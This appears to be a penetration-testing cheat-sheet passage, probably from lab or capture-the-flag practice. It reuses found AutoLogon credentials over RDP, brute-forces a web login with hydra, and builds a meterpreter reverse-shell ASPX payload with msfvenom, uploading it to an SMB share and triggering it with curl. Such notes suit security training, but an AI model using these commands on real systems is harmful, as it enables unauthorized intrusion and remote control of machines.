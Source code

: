 AutoLogon creds
-
During our privilege escalation proccess, if we got this creds using ```winPEAS.exe``` binary we could use them to RDP over the target machine.
![Screenshot from 2024-10-06 00-51-57](https://github.com/user-attachments/assets/9baed7c0-548c-4a51-9a5e-149b51864e14)

```
xfreerdp /u:administrator /p:<password> /v:<target ip>
```

Brute force login pages using hydra
-

```
sudo hydra <Username/List> <Password/List> <IP> <Method> "<Path>:<RequestBody>:<IncorrectVerbiage>"
```
After filling in the placeholders, here’s our actual command!

```
sudo hydra -s 80 -L ~/path/to/our/nameslist -P /usr/share/wordlists/rockyou.txt <our target> https-post-form "/login/index.php:username=^USER^&password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
```

Since the network share from ‘test’ is writeable, we can use it for a reverse shell.

```
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=<our ip> lport=1234 -f aspx -o shell.aspx
```
Then upload the reverse shell file to the network share.
```
└─$ smbclient \\\\<targetIp>\\test
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> put shell.aspx
putting file shell.aspx as \shell.aspx (149.1 kb/s) (average 149.1 kb/s)
```
Create a listener on the attacker’s machine useing `exploit/multi/handler` 

Finally, Invoke the reverse shell we uploaded to the network share.
```
└─$ curl http://<targetIp>/test/shell.aspx
```
We got the reverse shell
